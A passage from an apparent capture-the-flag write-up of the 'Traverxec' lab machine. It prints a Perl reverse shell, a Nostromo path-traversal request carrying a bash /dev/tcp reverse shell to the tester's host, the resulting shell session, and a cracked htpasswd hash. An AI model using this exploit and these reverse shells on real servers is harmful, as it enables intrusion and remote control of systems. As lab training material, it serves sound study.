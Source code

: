 ```
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.14.24:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};' 2>&1
```
as we can see, we are calling this url: ```/.%0d./.%0d./.%0d./.%0d./bin/sh``` wich is triggering command execution on the remote host, and we are also using a perl reverse shell.  
Now let's change the payload a bit and see if we can trigger a shell without using metasploit.  
Let's change the request as follow:  
```
POST /.%0d./.%0d./.%0d./.%0d./bin/bash HTTP/1.1
Host: 10.10.10.165
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_2_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36
Content-Length: 51
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Connection: close

echo
echo
bash -i >& /dev/tcp/10.10.14.24/8443 0>&1
```  
As we can see, we changed the url to bash instead of sh and the payload with a commond bash reverse tcp shell, after we send the request we get a shell as user www-data:
```
root@kali:~/Documents/HTB/Boxes/Traverxec# nc -lvnp 8443
listening on [any] 8443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.165] 37074
bash: cannot set terminal process group (419): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$
```

## User
As we login as user www-data we can run run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS notice the following:  
```
╔══════════╣ Analyzing Htpasswd Files (limit 70)                                                                      
-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd                                                    
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/         
```
While doing other recon, let's start cracking this using john:  
```
[root@kali Traverxec ]$ john --wordlist=/usr/share/wordlists/rockyou.txt htpasswd.txt      
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (david)     
1g 0:00:00:32 DONE (2022-03-28 15:48) 0.03119g/s 329957p/s 329957c/s 329957C/s Noyoudo..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Unfortunately this password doesn't leads to anywhere since cannot be used for switch user.  
So, let's keep it for now and proceed with further investigations.  
As we may have noticed, this file is within ```/var/nostromo/conf/.htpasswd```, let's look in here if we can see other interesting things:  
```
# MAIN [MANDATORY]
```